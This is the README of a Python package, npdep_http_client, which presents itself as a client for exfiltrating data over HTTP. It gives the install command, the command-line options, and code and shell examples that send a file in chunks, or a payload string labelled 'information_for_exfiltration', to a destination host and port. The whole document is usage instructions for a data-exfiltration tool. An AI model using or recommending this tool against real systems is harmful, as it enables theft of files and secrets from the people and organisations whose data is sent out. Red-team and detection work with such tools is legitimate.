 # Description

A client to exfiltrate data through HTTP protocol

# Installation

`pip install npdep_http_client`

# Usage

**From command line:**

`python -m npdep_http_client [-h] [--mode {payload,file}] --ip IP --port PORT [--pkgSize PKGSIZE] [--path PATH] [--filePath FILEPATH] [--payload PAYLOAD]`

| Option | Short | Type | Default | Description |
|---|---|---|---|---|
|--mode | -m | String | file | file = Sends file  `--filePath` in `--pkSize` chunks per HTTP request <br> payload = Sends `payload` per HTTP request |
|--ip | -i | String | - | IP address of destination |
|--port | -p | Int | - | Port of destination |
|--pkgSize | -k | Int | 1200 | Nr. of bytes to load from file under `--filePath` in chunks |
|--path | -t | String | / | Path for HTTP request |
|--filePath | -e | String | - | Path to file which shall be send in mode: file |
|--payload | -a | String | - | Payload to be send in mode: payload |

**Programmatically:**

```python

from npdep_http_client.util.Util import Util
from npdep_http_client.type.RequestType import RequestType
from npdep_http_client.client.Client import Client

client = Client("10.10.10.10", 4567)

# Get request type
requestType = RequestType.VALUES["file"]

if(requestType == RequestType.FILE):
    Util.sendFileWithHttpRequest(client, 1200, "/", "path/to/file/data.txt")
elif(requestType == RequestType.PAYLOAD):
    client.sendHttpRequest(s=None, path="/", payload="information_for_exfiltration")
    

```
# Example

`python -m npdep_http_client -i 10.10.10.10 -p 4567 -m payload -a "information_for_exfiltration"`

Sends `information_for_exfiltration` to `10.10.10.10` on port `4567` as an HTTP request.
